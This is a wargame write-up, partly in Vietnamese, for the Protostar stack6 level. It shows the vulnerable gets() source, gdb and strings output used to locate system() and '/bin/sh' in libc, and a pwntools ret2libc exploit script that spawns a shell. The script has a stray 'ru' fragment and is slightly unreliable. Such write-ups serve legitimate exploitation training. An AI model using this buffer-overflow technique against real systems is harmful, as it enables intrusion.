


# stack6

## Description

Stack6 looks at what happens when you have restrictions on the return address.

This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.

It is strongly suggested you experiment with multiple ways of getting your code to execute here.

This level is at /opt/protostar/bin/stack6

## Source Code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

### Ret2libc

Giải thích 1 chút, trên môi trường ubuntu của protostar thì ASLR off, và addr của stack luôn bắt đầu bằng `0xbf` cho nên bạn ko thể chèn shellcode. Vì nếu chèn shellcode khi EIP bắt đầu bằng `0xbf` thì lệnh if sẽ True và print() rồi _exit(). Vậy nên t sẽ return về địa chỉ của system() trong libc.

*Tìm padding*

`padding = cyclic(cyclic_find(uaaa))`
*tìm địa chỉ system()*

```Terminal
(gdb) p system
  $1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

*tìm addr /bin/sh

```Terminal
$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
  11f3bf /bin/sh   
 
  -a   = Scan entire file
  -t x = Print the offset location of the string in hexdecimal
To confirm...
(gdb) x/s 0xb7e97000 + 0x11f3bf   <-- libc start address + offset
  0xb7fb63bf:  "/bin/sh"
```

### exploit script

```py
from pwn import *
proc = process('./stack6')
padding = cyclic(cyclic_find("uaaa"))
system_addr = p32(0xb7ecffb0)
##ret addr after system()
ret="\x90"*4
bin_sh_addr = p32(0xb7e97000+0x11f3bf)
payload = padding + system_addr + ret + bin_sh_addr
proc.sendline(payload)ru
proc.interactive()
```


